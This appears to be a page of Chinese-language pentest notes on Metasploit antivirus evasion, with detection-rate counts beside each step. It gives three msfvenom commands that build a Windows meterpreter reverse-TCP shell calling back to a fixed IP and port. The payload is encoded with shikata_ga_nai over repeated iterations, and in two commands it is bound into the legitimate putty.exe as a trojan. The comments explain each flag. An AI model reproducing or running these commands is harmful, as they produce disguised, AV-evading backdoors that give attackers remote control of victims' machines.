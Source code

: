 
![image-20220112131634521](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220112131634521.png)

56/71



## msf自带免杀

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -e x86/shikata_ga_nai -b "\x00" -i 15 -f exe -o shell.exe

# x86/shikata_ga_nai 用自带免杀把软件进行加密
# 屏蔽\x00 i加密15次
# -f exe 加密同时不能破坏exe的结构
```

55/71



## msf捆绑免杀

比如：一个正经软件putty.exe+捆绑木马

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -x putty.exe -f exe -o shell.exe

# -x putty.exe 把木马程序捆绑在putty.exe上
# -f exe 加密同时不能破坏exe的结构
```

44/71



## msf自带免杀+捆绑

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -e x86/shikata_ga_nai -x putty.exe -i 15 -f exe -o shell.exe

# 合并前两个操作
```
